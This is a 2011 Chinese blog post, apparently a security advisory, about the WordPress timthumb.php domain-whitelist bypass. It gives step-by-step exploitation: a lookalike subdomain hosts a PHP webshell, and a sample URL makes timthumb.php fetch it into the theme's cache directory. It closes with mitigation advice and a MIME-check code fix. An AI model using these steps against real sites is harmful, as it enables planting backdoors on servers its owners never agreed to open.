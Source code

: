 ```yaml
---
title: 110804 请小心 timthumb.php
layout: post
permalink: /2205.html
categories:
  - Code
tags:
  - loper1.2
  - timthumb.php
  - wordpress
  - 上传漏洞
---
```

[<img class="aligncenter size-medium wp-image-2206" title="uploadld" src="http://www.80aj.com/wp-content/uploads/2011/08/uploadld-300x187.jpg" alt="" width="300" height="187" />][1]

今天早上 CNBETA爆出了 wordpress 的  谷歌写的  timthumb.php 上传漏洞

我分析了下 入侵规则如下:

<pre dir="ltr">0 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'flickr.com'</span> <em>(length=10)</em>
  1 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'picasa.com'</span> <em>(length=10)</em>
  2 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'blogger.com'</span> <em>(length=11)</em>
  3 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'wordpress.com'</span> <em>(length=13)</em>
  4 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'img.youtube.com'</span> <em>(length=15)</em></pre>

<pre dir="ltr"></pre>

以上文件是timthumb.php 支持 图片的下载地址 或者 ALLOW_EXTERNAL 为TRUE 都会被跳过域名检查.

漏洞利用:

创建一个域名 http://flickr.com.80aj.com/

目录下上传 80aj.php

寻找有 timthumb.php 的主题或者插件包

这里只提供一个  关于  loper1.2 主题包 中就自带 timthumb.php文件  
使用如下URL上传木马:

http://www.*.com/wp-content/themes/loper1.2/timthumb.php?src=http://flickr.com.80aj.com/80aj.php

上传完以后访问:

http://www.*.com/wp-content/themes/loper1.2/cache/

寻找刚才上传的文件 直接访问即可.

修复方法:  
cache 目录下创建 index.html 或者 php  
进制 cache目录执行PHP相关代码  
代码后缀过滤 ,虽然代码中过滤了 进制上传的类型 但还是会下载下来

timthumb.php 相关强制关闭

<pre lang="php">/**
 * determine the file mime type
 *
 * @param  $file
 * @return
 */
function mime_type ($file) {

	$file_infos = getimagesize ($file);
	$mime_type = $file_infos['mime'];

    // use mime_type to determine mime type
    if (!preg_match ("/jpg|jpeg|gif|png/i", $mime_type)) {
		display_error ('Invalid src mime type: ' . $mime_type);
		echo "sorry ,error src type";
		exit();
    }

    return $mime_type;

}</pre>

timthumb.php相关新闻:

http://www.cnbeta.com/articles/150685.htm

 [1]: http://www.80aj.com/wp-content/uploads/2011/08/uploadld.jpg